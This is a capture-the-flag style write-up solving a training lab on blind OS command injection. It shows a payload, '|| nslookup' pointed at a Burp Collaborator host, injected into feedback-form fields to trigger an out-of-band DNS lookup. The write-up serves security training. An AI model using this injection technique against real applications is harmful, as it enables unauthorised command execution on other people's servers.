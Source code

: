 # Lab: Blind OS command injection with out-of-band interaction

 The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

**Note**
*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. *

# Step 1 Get attack server address

Get the attack server address from burp collaborator, by clicking on the `copy to clipboard` link

![image](https://user-images.githubusercontent.com/83407557/209209944-c3779fbc-6bff-44c6-8c0e-90ca14883d3c.png)

I get the following address

7nvgowwpcqy3uyglwc2q7hzzuq0ho7cw.oastify.com

# Step 2 Finding OS command injection in webapp

Using the feedback link

![image](https://user-images.githubusercontent.com/83407557/209210276-2ef1da02-b3a2-4633-a1cd-17c4940c0f3b.png)

![image](https://user-images.githubusercontent.com/83407557/209210480-8cf91e90-9dfa-4923-9e81-8effe0485663.png)

Capturing this form with burp I inspect the POST request

![image](https://user-images.githubusercontent.com/83407557/209210645-7f67b44a-7870-4257-9ba0-443e93d165f7.png)

# Step 3 creating payload

To have a server make a dns request to my sever using command seperaters I will use the following:

```bash
|| nslookup 7nvgowwpcqy3uyglwc2q7hzzuq0ho7cw.oastify.com ||
```

# Step 4 inject payload in all the possible locations

Notice each payload is url encoded 

![image](https://user-images.githubusercontent.com/83407557/209212355-4bf2119c-ac69-478d-a15d-40abbda5fd89.png)

# Step 5 check attack server for DNS requests

I see that there was infact OS command injection

![image](https://user-images.githubusercontent.com/83407557/209212510-38806024-4cf7-40e0-9efe-bbc3fbdbea86.png)

With the DNS request the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/209213225-099c472b-9395-41c1-8fd6-c4557f03339a.png)
